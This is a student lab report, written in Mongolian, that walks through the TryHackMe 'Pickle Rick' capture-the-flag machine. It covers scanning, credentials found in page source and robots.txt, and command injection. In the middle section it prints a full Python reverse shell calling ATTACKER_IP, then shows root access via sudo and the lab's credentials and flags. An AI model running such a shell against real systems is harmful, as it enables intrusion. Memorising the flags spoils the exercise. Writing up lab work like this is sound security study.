<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал / F.NSA335/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Pickle Rick (EASY)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – PICKLE RICK 


##  УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Pickle Rick** нэртэй виртуал машины аюулгүй байдлын түвшинг шалгаж, системд үүссэн эмзэг байдал болон буруу тохиргоонуудыг илрүүлэх зорилгоор нэвтрэлтийн туршилт хийж гүйцэтгэлээ. Туршилтын явцад Kali Linux үйлдлийн системийг ашиглан зорилтот машины сүлжээний үйлчилгээнүүдийг судалж, вэб хуудасны эх кодоос нэвтрэх мэдээлэл олж авах, админ порталд нэвтрэн команд ажиллуулах, улмаар root хэрэглэгчийн эрх авах зэрэг үе шаттай ажиллагааг хэрэгжүүлсэн.

Энэхүү машин нь "Rick and Morty" цуврал дээр үндэслэсэн сэдэвтэй бөгөөд Rick нь өөрийгөө хулгана (pickle) болгон хувиргаснаас эргэн хувираахын тулд шаардлагатай гурван нууц орц (ingredient)-ийг олох зорилготой.

##  СҮЛЖЭЭНИЙ СУДАЛГАА (RECONNAISSANCE)


Ажлыг эхлүүлэхийн тулд эхлээд зорилтот машины IP хаягийг тохируулж, `nmap -sC -sV` командаар порт сканнердав. Сканы үр дүнд зорилтот машин дээр хоёр порт нээлттэй байгааг тогтоосон:

```bash
nmap -sC -sV -oN nmap/initial 10.49.174.16
```

22-р порт дээр `OpenSSH 8.2p1` үйлчилгээ, харин 80-р порт дээр `Apache httpd 2.4.41` веб сервер ажиллаж байв. Веб хуудасны гарчиг нь "Rick is sup4r cool" гэж харагдаж байсан бөгөөд энэ нь Rick and Morty сэдэвтэй машин болохыг нотолсон.

##  ВЭБ ХУУДАСНЫ СУДАЛГАА БА НЭВТРЭХ МЭДЭЭЛЭЛ ОЛОХ



80-р порт дээрх үндсэн веб хуудсанд хандаж, HTML эх кодыг (view-source) шалгаж үзсэнээр хуудасны тайлбарт нуугдсан `username: R1ckRul3s` гэсэн мэдээллийг олсон. Энэ нь хуудасны агуулгад шууд бичигдээгүй, зөвхөн эх код дотор comment хэлбэрээр нуугдсан байсан.



Дараа нь `nikto` хэрэгслээр нэмэлт скан хийж, `login.php` нэртэй нэвтрэх хуудас байгааг илрүүлсэн:

```bash
nikto -h http://$IP | tee nikto.log
```



Үүний зэрэгцээ `/robots.txt` хуудаснаас "Wubbalubbadubdub" гэсэн тэмдэгт мөрийг олсон бөгөөд энэ нь нууц үг байх магадлалтай гэж үзэв.

##  АНХНЫ НЭВТРЭЛТ (INITIAL FOOTHOLD)



Олдсон `R1ckRul3s` хэрэглэгчийн нэр болон `Wubbalubbadubdub` нууц үгийг ашиглан `login.php` хуудас руу амжилттай нэвтэрч, `portal.php` хуудас руу шилжсэн. Энэхүү порталд "Potion: Creature!", "Potion: Beth Clone", "Note" зэрэг цэснүүдийн дотроос зөвхөн **Command Panel** цэс рүү хандах боломжтой байв.



Command Panel дотор `ls` командыг ажиллуулж, серверийн root директор дахь файлуудыг харсан:

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Энэ нь веб аппликейшн нь хэрэглэгчийн оруулсан командыг шууд систем дээр ажиллуулдаг (command injection) эмзэг байдалтай болохыг харуулсан.

##  REVERSE SHELL БА ЭРХ ШИЛЖИЛТ

Command Panel-ийн эмзэг байдлыг ашиглан Python reverse shell командыг оруулж, attacker машин дээрх listener рүү холболт үүсгэв:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```



Shell нээгдсэний дараа `sudo bash` командыг нууц үггүйгээр ажиллуулахад шууд **root** эрхтэй болсон нь тогтоогдсон. Энэ нь веб серверийг ажиллуулдаг хэрэглэгч `sudo` эрхийг хязгаарлалтгүй ашиглах боломжтой байсныг харуулж байна.

```bash
sudo bash
```



##  ОРЦ ХАЙХ ЯВЦ (FLAG HUNTING)

Root эрх авсны дараа `/var/www/html` директорт байрлах `Sup3rS3cretPickl3Ingred.txt` файлыг уншиж, эхний нууц орцыг олсон:

**Эхний орц:** `mr. meeseek hair`



Дараа нь `/home` директор руу шилжиж, `rick` нэртэй хэрэглэгчийн хавтас дотроос `'second ingredients'` нэртэй файлыг олсон.



Уг файлыг нээж уншихад хоёрдугаар орц олдсон:

**Хоёрдох орц:** `1 jerry tear`



Эцэст нь `root`-ийн гэрийн директор (`/root`) дотроос `3rd.txt` файлыг нээж гуравдугаар буюу сүүлийн орцыг олсон:

```bash
cat 3rd.txt
```

**Гуравдах (сүүлийн) орц:** `fleeb juice`



Ингэснээр Rick-ийн pickle-reverse потион хийхэд шаардлагатай гурван орцыг бүгдийг олж, машиныг бүрэн эзэмшсэн болохыг баталгаажуулсан.



##  ДҮГНЭЛТ

Энэхүү машин нь нэлээд энгийн боловч чухал ойлголтуудыг агуулсан жишээ юм: HTML эх кодонд нууц мэдээлэл (username) үлдээх, `robots.txt` файлд нууц үг хадгалах зэрэг нь мэдээллийн задралд хүргэдэг. Харин веб аппликейшны Command Panel функц нь хэрэглэгчийн оролтыг зохих ёсоор шалгаагүйгээс шалтгаалан шууд command injection хийх боломж олгосон нь анхны нэвтрэлтийг хялбарчилсан. Эцэст нь системийн sudo тохиргоо хязгаарлалтгүй байсан нь привилеж шилжилтийг нэн даруй, нэмэлт эксплойт шаардалгүйгээр гүйцэтгэх боломжийг бий болгосон. Энэ нь веб аппликейшны оролтын шалгалт болон системийн sudo тохиргооны зөв менежмент хэрхэн чухал болохыг харуулсан сайн жишээ юм.
